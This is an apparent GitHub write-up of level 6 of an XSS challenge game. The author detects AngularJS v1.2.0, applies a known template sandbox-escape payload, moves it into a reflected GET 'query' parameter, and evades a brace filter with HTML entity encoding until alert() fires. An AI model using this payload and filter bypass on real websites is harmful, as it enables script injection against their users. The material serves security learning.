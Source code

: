 # XSS Game Write-Up: Level 6
![6-1](https://github.com/user-attachments/assets/73ddaea1-bcad-42d3-b9e5-a94ea7348791)


After entering the challenge, I followed the same steps I did in Level 5, which was to check the version of AngularJS. This time, I found it was an older version: **AngularJS v1.2.0**. So, I started looking for XSS vulnerabilities in this version and what payload I could use to exploit it. After some searching, I found this payload: 

```javascript
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

![6-2](https://github.com/user-attachments/assets/be74fe07-4bf0-49e3-83dd-d5e0cda48022)


I tried putting it in the search input, but it just rendered as a string and didn't execute or do anything.  

![6-3](https://github.com/user-attachments/assets/3effc1c0-6869-43f8-b466-8371f2005233)

So, I went back to the source code and noticed that the search form was using the POST method:

```html
<form action="/f/rWKWwJGnAeyi/" method="POST">
  <input id="demo2-query" name="query" maxlength="140" ng-model="query" placeholder="Enter query here...">
  <input id="demo2-button" type="submit" value="Search">
</form>
```

I thought, "Okay, what if I want to make the method GET so that it takes the payload from the URL?" What could I do? I saw that the search input has a name attribute, which is "query". What if I made this name a parameter in the URL and gave it the payload as its value? Would the server accept it, read it, and understand it? I decided to give it a try.

I added the attribute to the URL like this:
```
?query={{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

Nothing happened on the page, but when I checked the source code, I saw that what I wrote was reflected in the form's action, and the method turned to GET:

```html
<form action="/f/rWKWwJGnAeyi/?query=a='constructor';b=};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}" method="GET">
```

But when I opened the browser's dev tools, I noticed that the server understood the GET request, but it filtered out the }} characters.

![6-4](https://github.com/user-attachments/assets/9ef93b8d-75b7-4058-baec-8b9c32a90129)

so what about replacing `{ `to `&lcub` 
making the payload look like this:
```ruby
?query=&lcub;&lcub;a='constructor';b=&lcub;&rcub;;a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert()')()}}
```

And it worked!

![6-5](https://github.com/user-attachments/assets/bd9a82e4-ffcb-4691-bbfe-ba2f40eec7af)
